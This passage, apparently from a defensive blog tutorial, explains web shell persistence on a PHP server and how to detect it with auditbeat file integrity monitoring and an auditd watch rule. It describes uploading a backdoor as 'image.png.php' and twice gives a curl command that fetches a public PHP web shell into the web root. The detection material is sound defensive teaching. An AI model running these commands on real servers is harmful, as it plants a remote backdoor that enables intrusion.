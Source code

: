 What if you don’t have shell access? You might be able to install a web shell through an unrestricted upload. Upload your php backdoor as `image.png.php` and the backdoor might be accessible on `http://x.x.x.x/uploads/image.png.php`.

Another possible command that you can use is

```bash
curl https://raw.githubusercontent.com/JohnTroony/php-webshells/master/Collection/PHP_Shell.php -o /var/www/html/backdoor_shell.php
```

#### 1.3 Detection: Creation or modification of php files

**Using auditbeat’s file integrity monitoring**

For some web applications, we might be able to monitor the directories of our web app in auditbeat’s file integrity monitoring.

```yaml
- module: file_integrity  
  paths:  
  - /bin  
  - /usr/bin  
  - /sbin  
  - /usr/sbin  
  - /etc  
  - /var/www/html    # <--- Add  
- module: system  
  datasets:  
    - package # Installed, updated, and removed packages
```

When using _auditbeat’_s file integrity monitoring module, we see that looking at `event.module: file_integrity`

![](https://cdn-images-1.medium.com/max/800/1*H8QHiqUQ2Mn1C8tbG4Wbyw.png)

Our `vi` command “moved” the file. In this case, `moved` is the same as `updated` because of how `vi` works. Where it creates a temporary file `/var/www/html/phpinfo.php.swp`and if you want to save the file it replaces `/var/www/html/phpinfo.php` 

![](https://cdn-images-1.medium.com/max/800/1*JQcidyk6Z0SSmx4TOR_5DQ.png)

An example of a command that will result in a `created` log would be if we ran

```bash
curl https://raw.githubusercontent.com/JohnTroony/php-webshells/master/Collection/PHP_Shell.php -o /var/www/html/backdoor_shell.php
```
![](https://cdn-images-1.medium.com/max/800/1*MhcgZ5nRksISWGl9fiapJw.png)

**Using audit to monitor changes**

We can add the following rule to auditd 

```
-w /var/www/html -p wa -k www_changes
```
